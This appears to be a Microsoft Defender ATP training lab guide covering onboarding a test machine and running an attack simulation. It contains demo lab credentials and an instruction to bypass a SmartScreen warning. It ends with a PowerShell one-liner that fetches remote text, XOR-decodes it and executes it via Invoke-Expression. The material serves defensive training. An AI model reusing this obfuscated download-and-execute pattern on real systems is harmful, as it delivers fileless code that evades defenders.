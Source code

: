 	> [!NOTE] If you do not see the UAC window, minimize all windows and it will be in the background.
1. [] Enter the credentials below and click **Yes**:

	```LabUser```

	```Pa$$w0rd```

1. [] Press **(Y)** to confirm onboarding.
2. [] Return to the browser, scroll to the bottom of the page, and click **Start using Windows Defender ATP**.
1. [] Click **Proceed anyway** if you receive a Setup incomplete popup.
3. [] In the Windows Defender Security Center, click on **Settings > Advanced Features** and toggle the switches on for **Azure ATP integration**, **Office 365 Threat Intelligence Connection**, **Microsoft Cloud App Security**, and **Azure Information Protection** and press the **Save preferences** button at the bottom of the page.
	
	!IMAGE[g47p8c30.jpg](\Media\wdatpadv.png)

1. [] Switch to @lab.VirtualMachine(VictimPC).SelectLink and log in with the password +++@lab.VirtualMachine(VictimPC).Password+++.

1. [] Open an Edge InPrivate window and navigate to ```https://securitycenter.windows.com/```.
1. [] Log in using the credentials below:

	```@lab.CloudCredential(134).Username```

	```@lab.CloudCredential(134).Password```
1. [] On the left, click the **Settings** icon.

	!IMAGE[settings.png](\Media\settings.png)

3. [] On the Settings page, under **Machine management**, click **Onboarding**.
   
	!IMAGE[Open Screenshot](\Media\onboarding.png)

1. [] Click **Download package** and **Open** when the download dialog pops up.
2. [] Copy the **WindowsDefenderATPLocalOnboardingScript** to the desktop.
3. [] Right-click on **WindowsDefenderATPLocalOnboardingScript** and click **Run as Administrator**.
1. [] If you get the Windows protected your PC dialog, click the **More info** link and click **Run anyway**.
4. [] Press **(Y)** to confirm onboarding.
5. [] To run **Attack Simulation #1 "Automated investigation (fileless attack)"**, right-click **on AttackSimulation1.ps1** on the desktop, and click **Run with PowerShell**.

	> [!NOTE] A notepad window will launch to show that the attack was successful. Leave the notepad window open and continue with the lab.
	
	> [!KNOWLEDGE] The powershell commands that are included in the ps1 file are in the block below.
	> 
	> \[Net.ServicePointManager\]::SecurityProtocol = \[Net.SecurityProtocolType\]::Tls12;$xor = \[System.Text.Encoding\]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI https://winatpmanagement.windows.com/client/management/static/WinATP-Intro-Fileless.txt -UseBasicParsing).Content;Try{ $contentBytes = \[System.Convert\]::FromBase64String($base64String) } Catch { $contentBytes = \[System.Convert\]::FromBase64String($base64String.Substring(3)) };$i = 0; $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i]; $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression (\[System.Text.Encoding\]::UTF8.GetString($decryptedBytes))
